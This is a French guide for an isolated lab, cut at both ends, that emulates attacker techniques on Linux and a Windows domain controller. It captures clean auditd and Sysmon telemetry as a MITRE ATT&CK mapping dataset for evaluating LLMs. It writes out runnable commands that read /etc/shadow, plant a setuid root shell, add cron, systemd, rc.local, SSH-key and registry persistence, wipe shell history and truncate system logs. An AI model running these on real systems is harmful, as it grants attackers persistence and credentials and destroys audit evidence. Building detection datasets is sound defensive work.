  sg atkmark -c "$cmd"; rc=$?                                # exécute avec gid=4242 (marqueur)
  t1=$(date -u +%Y-%m-%dT%H:%M:%S.%NZ)                       # horodatage fin (UTC)
  printf '{"technique":"%s","sub_technique":"%s","tactic":"%s","marker_gid":4242,"t0":"%s","t1":"%s","rc":%d}\n' \
    "$tid" "$sub" "$tac" "$t0" "$t1" "$rc" >> "$GT"
  echo ">>> $tid rc=$rc"; }
```

### Execution

*L'attaquant vient d'obtenir un accès au serveur. Il exécute des commandes pour comprendre où
il a atterri.*

```bash
# T1059.004 Unix Shell : on simule un attaquant qui lance un shell et fait de la
# reconnaissance système (qui suis-je, quel noyau, quelle distribution, qui est connecté).
atk T1059.004 004 execution 'sh -c "id; uname -a; cat /etc/os-release; w"'; sleep 30

# T1059.006 Python : on simule l'usage de l'interpréteur Python (souvent présent sur les
# serveurs) comme alternative au shell pour exécuter du code et collecter des infos système.
atk T1059.006 006 execution 'python3 -c "import os,platform; print(platform.uname()); os.system(\"id\")"'; sleep 30
```

### Privilege Escalation

*L'attaquant cherche à passer de son compte utilisateur à des droits root.*

```bash
# T1548.003 Sudo and Sudo Caching : on simule un attaquant qui teste ce que sudo lui permet
# sans mot de passe, puis s'en sert pour lire un fichier réservé à root (/etc/shadow).
atk T1548.003 003 privilege-escalation 'sudo -n id; sudo -n cat /etc/shadow | head -3'; sleep 30

# T1548.001 Setuid and Setgid : on simule la pose d'une porte dérobée privilégiée — copier un
# shell, lui donner le bit setuid, puis l'exécuter pour obtenir un shell root permanent.
atk T1548.001 001 privilege-escalation 'sudo cp /bin/bash /tmp/rootbash && sudo chmod u+s /tmp/rootbash && /tmp/rootbash -p -c "id"'; sleep 30
```

### Persistence

*L'attaquant installe des mécanismes qui lui redonneront l'accès plus tard (après un
redémarrage ou un changement de mot de passe).*

```bash
# T1053.003 Cron : on simule l'installation d'une tâche planifiée qui s'exécuterait
# périodiquement pour maintenir l'accès. NOTE : on retire le crontab juste après (crontab -r)
# — SEULE exception au "nettoyage à la fin", car un cron actif tirerait chaque minute et
# polluerait le journal ; l'attaque (l'installation) est déjà entièrement capturée.
atk T1053.003 003 persistence 'echo "* * * * * /tmp/beacon.sh" | crontab - ; crontab -l'; crontab -r 2>/dev/null; sleep 30

# T1543.002 Systemd Service : on simule la création d'un service systemd malveillant qui se
# lancerait au démarrage de la machine.
atk T1543.002 002 persistence 'sudo tee /etc/systemd/system/evil.service >/dev/null <<EOF
[Unit]
Description=evil
[Service]
ExecStart=/tmp/beacon.sh
[Install]
WantedBy=multi-user.target
EOF
sudo systemctl daemon-reload'; sleep 30

# T1546.004 Unix Shell Configuration Modification : on simule l'ajout d'une ligne au .bashrc —
# le code de l'attaquant s'exécuterait à chaque ouverture de session shell de l'utilisateur.
atk T1546.004 004 persistence 'echo "# implant $(date)" >> ~/.bashrc'; sleep 30

# T1098.004 SSH Authorized Keys : on simule le dépôt de la clé publique SSH de l'attaquant,
# pour qu'il puisse se reconnecter sans mot de passe même si le mot de passe du compte change.
atk T1098.004 004 persistence 'mkdir -p ~/.ssh && echo "ssh-ed25519 AAAAC3Nz_ATTACKER_KEY attacker@evil" >> ~/.ssh/authorized_keys'; sleep 30

# T1037.004 RC Scripts : on simule l'ajout d'une commande au script de démarrage rc.local,
# exécutée à chaque boot de la machine.
atk T1037.004 004 persistence 'echo "/tmp/beacon.sh &" | sudo tee -a /etc/rc.d/rc.local'; sleep 30
```

### Credential Access

*L'attaquant cherche des identifiants (mots de passe, hachages, secrets).*

```bash
# T1003.008 /etc/passwd and /etc/shadow : on simule l'exfiltration des fichiers contenant les
# hachages de mots de passe, pour les casser hors ligne.
atk T1003.008 008 credential-access 'sudo cp /etc/shadow /tmp/sh.bak && sudo cp /etc/passwd /tmp/pw.bak && ls -la /tmp/*.bak'; sleep 30

# T1552.003 Bash History : on simule un attaquant qui fouille l'historique des commandes à la
# recherche de secrets laissés en clair (mots de passe, jetons, clés).
atk T1552.003 003 credential-access 'cat ~/.bash_history 2>/dev/null | grep -iE "pass|token|key|secret"'; sleep 30
```

> `T1552.003` peut finir en `rc=0` ou `rc=1` : `grep` renvoie 1 s'il ne trouve aucun mot
> correspondant. C'est normal, la commande est bien capturée dans les deux cas.

### Stealth

*L'attaquant efface ses traces et masque ses actions.*

```bash
# T1070.003 Clear Command History : on simule un attaquant qui efface l'historique de ses
# propres commandes pour couvrir ses traces.
atk T1070.003 003 stealth 'cat /dev/null > ~/.bash_history; history -c; unset HISTFILE'; sleep 30

# T1140 Deobfuscate/Decode Files or Information : on simule le décodage d'une charge encodée en
# base64 puis son exécution — technique d'obfuscation pour échapper à la détection par mots-clés.
atk T1140 - stealth 'echo "aWQ7IHVuYW1lIC1u" | base64 -d | sh'; sleep 30
```

### Defense Impairment

*L'attaquant affaiblit les défenses : effacement des journaux, permissions, pare-feu.*

```bash
# T1685.006 Clear Linux or Mac System Logs : on simule un attaquant qui vide un journal système
# (/var/log/messages) pour effacer les preuves de son passage.
atk T1685.006 006 defense-impairment 'sudo cp /var/log/messages /tmp/messages.bak && sudo truncate -s0 /var/log/messages'; sleep 30

# T1222.002 Linux and Mac File and Directory Permissions Modification : on simule la
# modification hostile des permissions et du propriétaire d'un fichier.
atk T1222.002 002 defense-impairment 'touch /tmp/cible && chmod 777 /tmp/cible && sudo chown root:root /tmp/cible'; sleep 30

# T1686 Disable or Modify System Firewall : on simule l'ouverture d'un port dans le pare-feu
# (4444, typique d'un canal C2) pour faciliter une communication sortante.
atk T1686 - defense-impairment 'sudo firewall-cmd --add-port=4444/tcp && sudo firewall-cmd --list-ports'; sleep 5
```

> Après la 16ᵉ attaque : on ne tape plus rien dans la session webadmin. Le dernier
> événement capturé est ainsi la dernière attaque.

---

## 6. Export du dataset (session root) 

Le filtre de capture les ignore et le journal n'est pas modifié. L'export est en format
numérique (`ausearch` sans `-i`) pour que `gid=4242` reste détectable.*

```bash
# vérité-terrain (root lit le fichier de webadmin)
wc -l < /home/webadmin/lab-ti-linux/trace_attaques_linux_ti.jsonl     # doit afficher 16

# export (root lit le journal SANS sudo -> auid=0 -> NON capturé)
cp /home/webadmin/lab-ti-linux/trace_attaques_linux_ti.jsonl /home/webadmin/dataset_ti_linux/
ausearch -if /var/log/audit/audit.log > /home/webadmin/dataset_ti_linux/audit_capture.log
chown -R webadmin:webadmin /home/webadmin/dataset_ti_linux
tar czf /home/webadmin/dataset_ti_linux.tar.gz -C /home/webadmin dataset_ti_linux
ls -lh /home/webadmin/dataset_ti_linux.tar.gz
```

*Preuves de propreté (les quatre compteurs doivent afficher 0):*

```bash
A=/home/webadmin/dataset_ti_linux/audit_capture.log
echo -n "harnais/wrapper (0)    : "; grep -cE 'exe="/usr/bin/(newgrp|sg|date|sleep)"' "$A"
echo -n "export tar/ausearch (0): "; grep -cE 'exe="/usr/bin/(tar|ausearch)"' "$A"
echo -n "auditctl (0)           : "; grep -c 'exe="/usr/sbin/auditctl"' "$A"
echo -n "beacon cron firing (0) : "; grep -c 'sh -c /tmp/beacon.sh' "$A"
```

> Le seul `auid=0` du fichier est un `DAEMON_ROTATE` (le marqueur de gel du journal), en tête
> et hors de toute fenêtre d'attaque — bénin.

*Nettoyage des artefacts (le journal est déjà exporté ; plus rien n'est pollué) :*

```bash
cp /tmp/messages.bak /var/log/messages 2>/dev/null           # restaurer /var/log/messages
rm -f /tmp/rootbash /tmp/sh.bak /tmp/pw.bak /tmp/cible /tmp/messages.bak
rm -f /etc/systemd/system/evil.service; systemctl daemon-reload
sed -i '/# implant/d' /home/webadmin/.bashrc
sed -i '/attacker@evil/d' /home/webadmin/.ssh/authorized_keys
sed -i '/beacon.sh/d' /etc/rc.d/rc.local
firewall-cmd --remove-port=4444/tcp 2>/dev/null
echo "Nettoyage terminé."
```

## 7. Exportation vers l'hôte Windows

*Depuis le poste Windows :*

```powershell
New-Item -ItemType Directory "$env:USERPROFILE\Desktop\dataset" -Force | Out-Null
scp webadmin@<adresse_ip>:/home/webadmin/dataset_ti_linux.tar.gz "$env:USERPROFILE\Desktop\dataset\"
cd "$env:USERPROFILE\Desktop\dataset"; tar -xzf dataset_ti_linux.tar.gz
dir dataset_ti_linux
```

*(Si `scp` est absent du poste : `Add-WindowsCapability -Online -Name OpenSSH.Client~~~~0.0.1.0`
en PowerShell administrateur, ou utiliser WinSCP/FileZilla.)*

Après extraction, le poste contient `Desktop\dataset\dataset_ti_linux\` avec
`trace_attaques_linux_ti.jsonl` (la vérité-terrain) et `audit_capture.log` (la télémétrie
auditd).

# Zone TI — Windows

Toutes les commandes se lancent en **PowerShell (session administrateur)**, via SSH ou RDP.
Les redémarrages qui coupent la session sont signalés. Chaque bloc indique la machine cible :
**[DC01]** = contrôleur de domaine, **[WS01]** = poste membre attaquant.

---

# A. Windows Server — `DC01`

## A.1 Préparation

### Phase 1 — Socle réseau + nom de machine (redémarrage)

DNS pointé sur la passerelle **avant** la promotion (le serveur doit résoudre Internet le temps
d'installer le rôle). Le renommage redémarre la machine.

**[DC01]**
```powershell
Get-NetAdapter | Format-Table Name, InterfaceDescription, Status -AutoSize   # vérifier le nom d'interface (souvent Ethernet0)

Set-NetIPInterface        -InterfaceAlias "Ethernet0" -Dhcp Disabled
New-NetIPAddress          -InterfaceAlias "Ethernet0" -IPAddress 192.168.33.133 -PrefixLength 24 -DefaultGateway 192.168.33.2
Set-DnsClientServerAddress -InterfaceAlias "Ethernet0" -ServerAddresses 192.168.33.2   # DNS Internet AVANT promotion
Rename-Computer -NewName "DC01" -Restart                                               # REDÉMARRE
```

> Reconnexion sur `192.168.33.133` après le reboot.

### Phase 2 — Rôle AD DS + promotion en contrôleur de domaine (redémarrage)

Mot de passe DSRM **en dur** (une invite interactive au milieu d'un bloc collé en SSH avale les
lignes suivantes). `Install-ADDSForest` redémarre automatiquement à la fin.

**[DC01]**
```powershell
Install-WindowsFeature AD-Domain-Services -IncludeManagementTools
Import-Module ADDSDeployment

$dsrm = ConvertTo-SecureString "DsrmP@ss2026!" -AsPlainText -Force

Install-ADDSForest `
  -DomainName "labo.local" `
  -DomainNetbiosName "LABO" `
  -InstallDns `
  -SafeModeAdministratorPassword $dsrm `
  -Force                                     # crée la forêt (REDÉMARRE)
```

> Le premier démarrage en DC est lent (~5 min). Reconnexion : le compte administrateur local est
> devenu administrateur **de domaine** (essayer `administrateur@labo.local` si `administrateur`
> seul est refusé).

Après le reboot — repointer le DNS sur lui-même et vérifier la santé du domaine :

**[DC01]**
```powershell
Set-DnsClientServerAddress -InterfaceAlias "Ethernet0" -ServerAddresses 127.0.0.1   # DNS sur lui-même APRÈS promotion

Get-ADDomain | Format-List DNSRoot, NetBIOSName, DomainMode, InfrastructureMaster
Get-Service NTDS, ADWS, DNS, kdc, Netlogon | Format-Table Name, Status -AutoSize     # les 5 doivent être "Running"
(Get-CimInstance Win32_ComputerSystem).DomainRole                                    # doit afficher 5 (Primary DC)
```

## A.2 Configuration

### Instrumentation Sysmon

Redirecteur DNS vers la passerelle (un DC fraîchement promu ne résout pas toujours Internet),
contrôle de résolution, TLS 1.2 et `-UseBasicParsing`.

**[DC01]**
```powershell
if (-not (Get-DnsServerForwarder).IPAddress) { Add-DnsServerForwarder -IPAddress 192.168.33.2 }

Resolve-DnsName download.sysinternals.com -ErrorAction SilentlyContinue | Select-Object -First 1 Name, IPAddress

[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -ItemType Directory -Path C:\sysmon -Force | Out-Null; cd C:\sysmon
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/Sysmon.zip" -OutFile Sysmon.zip -UseBasicParsing
Expand-Archive Sysmon.zip -DestinationPath . -Force
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml" -OutFile sysmonconfig.xml -UseBasicParsing

.\Sysmon64.exe -accepteula -i sysmonconfig.xml
Get-Service Sysmon64 | Format-Table Name, Status -AutoSize     # doit afficher "Running"
```

### Peuplement du domaine

Deux utilisateurs, un compte de service `svc_sql` doté d'un **SPN**, un groupe. Variable nommée
`$pw` (ne pas écraser `$pwd`).

**[DC01]**
```powershell
New-ADOrganizationalUnit -Name "Labo" -Path "DC=labo,DC=local"
$pw = ConvertTo-SecureString "Passw0rd!2026" -AsPlainText -Force

New-ADUser -Name "Jean Dupont"  -SamAccountName "jdupont" -UserPrincipalName "jdupont@labo.local" -Path "OU=Labo,DC=labo,DC=local" -AccountPassword $pw -Enabled $true
New-ADUser -Name "Marie Martin" -SamAccountName "mmartin" -UserPrincipalName "mmartin@labo.local" -Path "OU=Labo,DC=labo,DC=local" -AccountPassword $pw -Enabled $true
New-ADUser -Name "SQL Service"  -SamAccountName "svc_sql" -UserPrincipalName "svc_sql@labo.local" -Path "OU=Labo,DC=labo,DC=local" -AccountPassword $pw -Enabled $true -PasswordNeverExpires $true
setspn -A MSSQLSvc/DC01.labo.local:1433 svc_sql

New-ADGroup -Name "TI-Admins" -GroupScope Global -Path "OU=Labo,DC=labo,DC=local"
Add-ADGroupMember -Identity "TI-Admins" -Members "jdupont"
```

Vérification :

**[DC01]**
```powershell
Get-ADUser -Filter * -SearchBase "OU=Labo,DC=labo,DC=local" | Format-Table SamAccountName, Enabled -AutoSize   # jdupont, mmartin, svc_sql -> True
setspn -L svc_sql                                                                                              # doit lister MSSQLSvc/DC01.labo.local:1433
Get-ADGroupMember TI-Admins | Format-Table SamAccountName -AutoSize                                            # doit contenir jdupont
```

### Export de la politique d'audit (pour aligner `WS01`)

Sert à ce que `WS01` audite **exactement** comme le DC. Le fichier est copié sur `WS01` en B.2.

**[DC01]**
```powershell
New-Item -ItemType Directory C:\LAB -Force | Out-Null
auditpol /backup /file:C:\LAB\auditpol.csv
Get-Item C:\LAB\auditpol.csv     # confirme la création
```

---

# Zone TI :  Windows Server

Guide complet de reproduction : d'une VM Windows Server neuve jusqu'au dataset préparé.
Ce document couvre une seule machine (`DC01`) et produit de la télémétrie d'attaque Windows
sans bruit dès la génération, prête pour évaluer les LLM sur le mapping MITRE ATT&CK.

---

## 1. Objectif et principe

Nous voulons de la télémétrie d'attaque Windows où la télémétrie est l'attaque : chaque
échantillon ne contient que les événements de la technique jouée, rien d'autre. Pas de bruit de
fond, pas de filtrage a posteriori à bricoler.

### Le problème de l'approche naïve

En passant par sysmon et l'audit Windows, on récupère toute la télémétrie de la machine entière et de ce fait, on enregistre aussi le bruit de fond (Windows Update, OneDrive, Edge,
`dsregcmd`, services `SYSTEM`, ouvertures de session, résolutions DNS…) et on passe son temps à le filtrer sans jamais atteindre le zéro.
Pour contrer cela, on renverse la logique : au lieu de tout enregistrer puis filtrer, on ne conserve que l'arbre de processus de l'attaque et rien d'autre. 
Concrètement, le harnais lance chaque technique dans un processus racine dédié, puis reconstruit son arbre (racine + tous ses descendants, via les `ProcessGuid`de Sysmon) et n'écrit que cet arbre sur le disque. Le reste de la machine n'existe pas pour l'échantillon → il n'y a rien à filtrer, zéro contamination par construction.

C'est l'équivalent Windows de ce que fait `auditd` filtré sur un `auid` côté Linux : on scope la capture, pas le contenu.

---

## Topologie et prérequis

- **Hyperviseur** : VMware, réseau **NAT (VMnet8)** sur `192.168.33.0/24`, passerelle `192.168.33.2`.
- **VM** : Windows Server (neuve), adaptateur en NAT, options *Connected* + *Connect at power on*.
- **DC01** : IP fixe `192.168.33.133`, futur contrôleur de domaine `labo.local`.

Chaque bloc de commandes indique où le lancer :


---

## Préparer la VM neuve en `DC01`

### Accès initial + réseau + SSH 

La VM neuve n'a ni IP fixe ni SSH : ces premières commandes se font dans la **console VMware**.
Ouvre PowerShell en administrateur (menu Démarrer → `powershell` → clic droit → Exécuter en tant
qu'administrateur), puis colle :

```powershell
# Mot de passe admin connu (pour le SSH ensuite) — mot de passe de labo
net user Administrateur "LabReset2026!"

# IP fixe + passerelle + DNS = la passerelle (le temps d'installer le rôle AD)
$if = (Get-NetAdapter | Where-Object Status -eq 'Up' | Select-Object -First 1).Name
Set-NetIPInterface        -InterfaceAlias $if -Dhcp Disabled
New-NetIPAddress          -InterfaceAlias $if -IPAddress 192.168.33.133 -PrefixLength 24 -DefaultGateway 192.168.33.2
Set-DnsClientServerAddress -InterfaceAlias $if -ServerAddresses 192.168.33.2

# Activer OpenSSH Server + shell PowerShell par défaut (fini l'invite cmd)
Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0
Set-Service sshd -StartupType Automatic ; Start-Service sshd
New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22 | Out-Null
New-Item -Path "HKLM:\SOFTWARE\OpenSSH" -Force | Out-Null
New-ItemProperty -Path "HKLM:\SOFTWARE\OpenSSH" -Name DefaultShell -Value "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -PropertyType String -Force | Out-Null
Write-Host "Pret pour SSH sur 192.168.33.133 (administrateur / LabReset2026!)" -ForegroundColor Green
```

À partir d'ici, **tout se fait en SSH**.  :

```
ssh administrateur@192.168.33.133
```

### Renommer en `DC01`

```powershell
Rename-Computer -NewName "DC01" -Restart
```

### Promouvoir en contrôleur de domaine

```powershell
Install-WindowsFeature AD-Domain-Services -IncludeManagementTools
Import-Module ADDSDeployment
$dsrm = ConvertTo-SecureString "DsrmP@ss2026!" -AsPlainText -Force
Install-ADDSForest -DomainName "labo.local" -DomainNetbiosName "LABO" -InstallDns -SafeModeAdministratorPassword $dsrm -Force
```

> La machine redémarre automatiquement (premier démarrage en DC : ~5 min). On se reconnecte ensuite
> en compte **de domaine** : `ssh labo\administrateur@192.168.33.133` (mot de passe `LabReset2026!`).
> Si `labo\administrateur` est refusé, essaie `administrateur@192.168.33.133`.

### 3.4 DNS

```powershell
$if = (Get-NetAdapter | Where-Object Status -eq 'Up' | Select-Object -First 1).Name
Set-DnsClientServerAddress -InterfaceAlias $if -ServerAddresses 127.0.0.1
Get-Service NTDS,ADWS,DNS,kdc,Netlogon | Format-Table Name,Status -AutoSize   # les 5 doivent etre Running
(Get-CimInstance Win32_ComputerSystem).DomainRole                              # doit afficher 5 (Primary DC)
```

`DC01` est prêt.

---

## 4. Capteur Sysmon + harnais

### 4.1 Installer Sysmon (config de capture) `[SSH]`
Le capteur enregistre large ; comme le tri se fait par filiation dans le harnais, ce « large » ne
produit **aucun bruit en sortie** — il garantit juste qu'on ne rate aucun événement de l'arbre.

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
if (-not (Get-DnsServerForwarder).IPAddress) { Add-DnsServerForwarder -IPAddress 192.168.33.2 }  # pour resoudre Internet
New-Item -ItemType Directory C:\LAB -Force | Out-Null
New-Item -ItemType Directory C:\sysmon -Force | Out-Null
Set-Location C:\sysmon

@'
<Sysmon schemaversion="4.90">
  <HashAlgorithms>SHA256</HashAlgorithms>
  <EventFiltering>
    <ProcessCreate onmatch="exclude">
      <Image condition="end with">\conhost.exe</Image>
    </ProcessCreate>
    <ProcessTerminate onmatch="include"/>
    <FileCreate onmatch="exclude">
      <TargetFilename condition="contains">__PSScriptPolicyTest</TargetFilename>
      <TargetFilename condition="contains">customDestinations</TargetFilename>
      <TargetFilename condition="contains">StartupProfileData</TargetFilename>
      <TargetFilename condition="end with">.temp</TargetFilename>
    </FileCreate>
    <RegistryEvent onmatch="exclude">
      <EventType condition="is">CreateKey</EventType>
      <EventType condition="is">DeleteKey</EventType>
    </RegistryEvent>
    <NetworkConnect onmatch="exclude"/>
    <DnsQuery onmatch="exclude"/>
    <CreateRemoteThread onmatch="include"/>
    <ImageLoad onmatch="include"/>
    <DriverLoad onmatch="include"/>
  </EventFiltering>
</Sysmon>
'@ | Set-Content -Encoding ASCII C:\sysmon\sysmon-capture.xml

Invoke-WebRequest 'https://download.sysinternals.com/files/Sysmon.zip' -OutFile Sysmon.zip -UseBasicParsing
Expand-Archive Sysmon.zip -DestinationPath . -Force
.\Sysmon64.exe -accepteula -i C:\sysmon\sysmon-capture.xml
wevtutil sl Microsoft-Windows-Sysmon/Operational /ms:1073741824
Get-Service Sysmon64 | Format-Table Name,Status -AutoSize   # doit afficher Running
```

> **Attendu** : `Sysmon64  Running`.
>
> L'exclusion `RegistryEvent` ci-dessus n'est pas fiable sur Sysmon v15.x (les `CreateKey`
> passent quand même) — c'est le harnais qui retire ce bruit ensuite. On la laisse par principe.
>
> Si le téléchargement échoue (pas d'Internet sur le DC) : télécharge `Sysmon.zip` sur ton
> poste et pousse-le — `[Poste]` :
> `scp "$env:USERPROFILE\Downloads\Sysmon.zip" labo\administrateur@192.168.33.133:C:/sysmon/`,
> puis reprends à partir de `Expand-Archive`.


### Charger le harnais (filtre anti-bruit intégré) `[SSH]`

Ce bloc écrit `C:\LAB\harness.ps1` puis le charge. Le harnais : lance chaque attaque dans un
processus racine, reconstruit son arbre par `ProcessGuid`, **retire les Id 12 + le registre du
lanceur**, écrit en **UTF-8**, attend **15 s** entre techniques, et n'écrit **aucun échantillon**
sur le DC — seulement la télémétrie propre + la trace (vérité-terrain).

```powershell
@'
$LAB   = "C:\LAB"
$TELEM = Join-Path $LAB "telemetrie_dc01.jsonl"
$TRACE = Join-Path $LAB "trace_attaques_dc01.jsonl"
$Gap   = 15
$UTF8  = New-Object System.Text.UTF8Encoding($false)
New-Item -ItemType Directory $LAB -Force | Out-Null
if (-not (Test-Path $TELEM)) { New-Item -ItemType File $TELEM -Force | Out-Null }
if (-not (Test-Path $TRACE)) { New-Item -ItemType File $TRACE -Force | Out-Null }

function _Fields($e){ $h=@{}; try{ [xml]$x=$e.ToXml(); foreach($d in $x.Event.EventData.Data){ $h[$d.Name]=$d."#text" } }catch{}; $h }

function Invoke-Atk {
  param([Parameter(Mandatory)][string]$Technique,[Parameter(Mandatory)][string]$Name,
        [Parameter(Mandatory)][string]$Tactic,[Parameter(Mandatory)][string]$Command)
  $t0 = Get-Date
  $ps = "$env:SystemRoot\System32\WindowsPowerShell\v1.0\powershell.exe"
  $proc = Start-Process -FilePath $ps -ArgumentList "-NoProfile","-NonInteractive","-ExecutionPolicy","Bypass","-Command",$Command -PassThru -Wait
  $rootPid = $proc.Id
  Start-Sleep -Milliseconds 1500
  $t1 = Get-Date

  $evts = Get-WinEvent -FilterHashtable @{LogName="Microsoft-Windows-Sysmon/Operational"; StartTime=$t0.AddSeconds(-1); EndTime=$t1.AddSeconds(1)} -ErrorAction SilentlyContinue
  $parsed = foreach($e in $evts){ [pscustomobject]@{ E=$e; F=(_Fields $e) } }
  $root = $parsed | Where-Object { $_.E.Id -eq 1 -and $_.F["ProcessId"] -eq "$rootPid" } | Select-Object -First 1
  if (-not $root){ Write-Host ">>> $Technique : racine PID $rootPid introuvable - a revoir" -ForegroundColor Red; return }

  $set = New-Object System.Collections.Generic.HashSet[string]; [void]$set.Add($root.F["ProcessGuid"])
  $changed = $true
  while($changed){ $changed=$false
    foreach($p in $parsed){ if($p.E.Id -eq 1){
      $g=$p.F["ProcessGuid"]; $pg=$p.F["ParentProcessGuid"]
      if($pg -and $set.Contains($pg) -and -not $set.Contains($g)){ [void]$set.Add($g); $changed=$true } } } }

  $kept = foreach($p in $parsed){ $g=$p.F["ProcessGuid"]; $sg=$p.F["SourceProcessGuid"]
    if( ($g -and $set.Contains($g)) -or ($sg -and $set.Contains($sg)) ){ $p.E } }

  # FILTRE ANTI-BRUIT DE DEMARRAGE : jeter les Id 12 + le registre ecrit par le lanceur
  $kept = $kept | Where-Object {
    $_.Id -ne 12 -and -not ( (($_.Id -eq 13) -or ($_.Id -eq 14)) -and ((_Fields $_)["Image"] -match '\\(powershell|conhost)\.exe$') )
  } | Sort-Object TimeCreated

  $lines = foreach($e in $kept){
    [pscustomobject]@{ TimeCreated=$e.TimeCreated.ToUniversalTime().ToString("yyyy-MM-ddTHH:mm:ss.fffZ")
      Id=$e.Id; LogName=$e.LogName; ProviderName=$e.ProviderName; MachineName=$e.MachineName
      Message=$e.Message; Properties=@($e.Properties | ForEach-Object { [string]$_.Value }) } | ConvertTo-Json -Compress -Depth 6 }
  if(@($lines).Count){ [System.IO.File]::AppendAllLines($TELEM, [string[]]@($lines), $UTF8) }

  $gtLine = @{ technique=$Technique; mitre_name=$Name; tactic=$Tactic
    t0=$t0.ToUniversalTime().ToString("yyyy-MM-ddTHH:mm:ss.fffZ")
    t1=$t1.ToUniversalTime().ToString("yyyy-MM-ddTHH:mm:ss.fffZ")
    machine=$env:COMPUTERNAME; events=@($lines).Count } | ConvertTo-Json -Compress
  [System.IO.File]::AppendAllLines($TRACE, [string[]]@($gtLine), $UTF8)

  $imgs = $kept | Where-Object {$_.Id -eq 1} | ForEach-Object { Split-Path (_Fields $_)["Image"] -Leaf } | Sort-Object -Unique
  Write-Host (">>> {0}  {1}  ->  {2} evts propres  [{3}]  (pause {4}s)" -f $Technique,$Name,@($lines).Count,($imgs -join ", "),$Gap) -ForegroundColor Cyan
  Start-Sleep -Seconds $Gap
}
Write-Host "Harnais pret (filtre integre)." -ForegroundColor Green
'@ | Set-Content -Path C:\LAB\harness.ps1 -Encoding UTF8
. C:\LAB\harness.ps1
```

> **Attendu** : `Harnais pret (filtre integre).`

---

## 5. Générer les 12 techniques `[SSH]`

Collez tout le bloc d'un coup. Chaque technique se capture, se nettoie, puis attend 15 s. La ligne
`>>>` doit montrer 3 à 6 événements propres et des noms d'outils (whoami, net, reg…).

```powershell
Invoke-Atk -Technique "T1033"     -Name "System Owner/User Discovery"                                    -Tactic "Discovery"          -Command 'whoami /all; hostname'
Invoke-Atk -Technique "T1082"     -Name "System Information Discovery"                                    -Tactic "Discovery"          -Command 'systeminfo'
Invoke-Atk -Technique "T1057"     -Name "Process Discovery"                                               -Tactic "Discovery"          -Command 'tasklist'
Invoke-Atk -Technique "T1016"     -Name "System Network Configuration Discovery"                          -Tactic "Discovery"          -Command 'ipconfig /all; arp -a'
Invoke-Atk -Technique "T1087.001" -Name "Account Discovery: Local Account"                                -Tactic "Discovery"          -Command 'net user; net localgroup administrators'
Invoke-Atk -Technique "T1059.001" -Name "Command and Scripting Interpreter: PowerShell"                   -Tactic "Execution"          -Command 'Get-Process | Select-Object -First 5 Name,Id'
Invoke-Atk -Technique "T1059.003" -Name "Command and Scripting Interpreter: Windows Command Shell"        -Tactic "Execution"          -Command 'cmd /c ver; cmd /c whoami'
Invoke-Atk -Technique "T1027.010" -Name "Obfuscated Files or Information: Command Obfuscation"            -Tactic "Stealth"            -Command 'powershell -EncodedCommand RwBlAHQALQBQAHIAbwBjAGUAcwBzAA=='
Invoke-Atk -Technique "T1547.001" -Name "Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder" -Tactic "Persistence" -Command 'reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v LabPersist /t REG_SZ /d C:\Windows\System32\calc.exe /f; reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v LabPersist; reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v LabPersist /f'
Invoke-Atk -Technique "T1053.005" -Name "Scheduled Task/Job: Scheduled Task"                              -Tactic "Persistence"        -Command 'schtasks /create /tn LabTask /tr C:\Windows\System32\calc.exe /sc daily /st 09:00 /f; schtasks /query /tn LabTask; schtasks /delete /tn LabTask /f'
Invoke-Atk -Technique "T1543.003" -Name "Create or Modify System Process: Windows Service"                -Tactic "Persistence"        -Command 'sc.exe create LabSvc binPath= C:\Windows\System32\svchost.exe start= demand; sc.exe qc LabSvc; sc.exe delete LabSvc'
Invoke-Atk -Technique "T1112"     -Name "Modify Registry"                                                 -Tactic "Defense Impairment" -Command 'reg add HKCU\Software\LabTest /v Config /t REG_SZ /d modified /f; reg query HKCU\Software\LabTest; reg delete HKCU\Software\LabTest /f'
```

### Les 12 techniques (référentiel MITRE ATT&CK Enterprise **v19.2**)

| # | ID | Nom canonique | Tactique(s) v19.2 |
|---|---|---|---|
| S000 | T1033 | System Owner/User Discovery | Discovery |
| S001 | T1082 | System Information Discovery | Discovery |
| S002 | T1057 | Process Discovery | Discovery |
| S003 | T1016 | System Network Configuration Discovery | Discovery |
| S004 | T1087.001 | Local Account | Discovery |
| S005 | T1059.001 | PowerShell | Execution |
| S006 | T1059.003 | Windows Command Shell | Execution |
| S007 | T1027.010 | Command Obfuscation | Stealth |
| S008 | T1547.001 | Registry Run Keys / Startup Folder | Persistence, Privilege Escalation |
| S009 | T1053.005 | Scheduled Task | Execution, Persistence, Privilege Escalation |
| S010 | T1543.003 | Windows Service | Persistence, Privilege Escalation |
| S011 | T1112 | Modify Registry | Defense Impairment, Persistence |

> **Note v19 (avril 2026)** : la tactique *Defense Evasion* (TA0005) a été scindée en Stealth
> (TA0005) et Defense Impairment (TA0112). C'est pourquoi `T1027.010` relève de *Stealth* et
> `T1112` de Defense Impairment. Les IDs de technique n'ont pas changé.
>
> **Précision de mapping** : `powershell -EncodedCommand` correspond exactement à la sous-technique
> **T1027.010 (Command Obfuscation)**, plus fine que le parent T1027 « Obfuscated Files or
> Information ».

---

## 6. Vérifier et exporter

### 6.1 Contrôle

```powershell
$ev = Get-Content C:\LAB\telemetrie_dc01.jsonl -Encoding UTF8 | ForEach-Object { $_ | ConvertFrom-Json }
"Total evenements propres : " + $ev.Count
$ev | Group-Object Id | Select-Object Name,Count | Sort-Object Name | Format-Table -AutoSize
"Fenetres (trace) : " + (Get-Content C:\LAB\trace_attaques_dc01.jsonl | Measure-Object -Line).Lines
Select-String -Path C:\LAB\telemetrie_dc01.jsonl -SimpleMatch -Pattern 'OneDrive','MoUsoCoreWorker','dsregcmd'
```

Attendu : ~40 événements, aucun Id 12, 12 fenêtres, et la dernière recherche n'affiche
